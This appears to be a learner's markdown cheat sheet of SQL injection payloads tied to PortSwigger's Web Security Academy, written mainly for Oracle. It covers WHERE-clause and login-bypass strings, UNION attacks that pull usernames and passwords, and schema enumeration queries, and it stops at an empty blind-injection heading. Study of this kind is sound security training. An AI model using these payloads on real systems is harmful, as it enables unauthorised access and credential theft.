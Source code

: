 https://portswigger.net/web-security/sql-injection
*Note: all code below are meant for OracleDB (except `information_schema` related), please check [Syntax Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for other variants'*

### WHERE Clause
`SELECT * FROM products WHERE category = '{}' AND released = 1`  
Attack (GET URL): ?category='+OR+1%3d1--  

### Login Bypass (Subvert Logic)
`SELECT * FROM users WHERE username = '{}' AND password = '{}'`  
Attack (POST Method): username=administrator'--&password=123  

### UNION Attacks
**Conditions**  
1. Both queries must return same number of columns  
`ORDER BY {index number}`  
2. Compatible data types in each column  
`UNION SELECT NULL,'a',NULL,NULL`  

**Techniques**  
1. Retrieving multiple values within a single column (concatenation)  
`UNION SELECT NULL,username||'~'||password FROM users`  

### Examine Database
`SELECT banner FROM v$version`  
`SELECT table_name FROM all_tables  
SELECT column_name FROM all_tab_columns WHERE table_name='{}'`  

**Non-Oracle DB:**  
`SELECT table_name FROM information_schema.tables  
SELECT column_name FROM information_schema.columns WHERE table_name='{}'`  

### Blind SQLi
